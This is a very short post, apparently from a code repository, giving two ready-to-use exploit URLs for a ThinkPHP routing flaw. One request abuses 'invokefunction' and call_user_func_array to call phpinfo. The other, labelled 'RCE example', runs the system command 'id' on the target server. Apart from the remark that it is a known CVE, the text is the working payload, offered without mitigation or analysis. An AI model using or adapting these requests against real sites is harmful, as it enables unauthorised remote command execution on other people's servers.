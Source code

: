 So simple:

phpinfo exmaple:
http://xxxxx/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

RCE example:
http://xxxxx/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

This is a known CVE
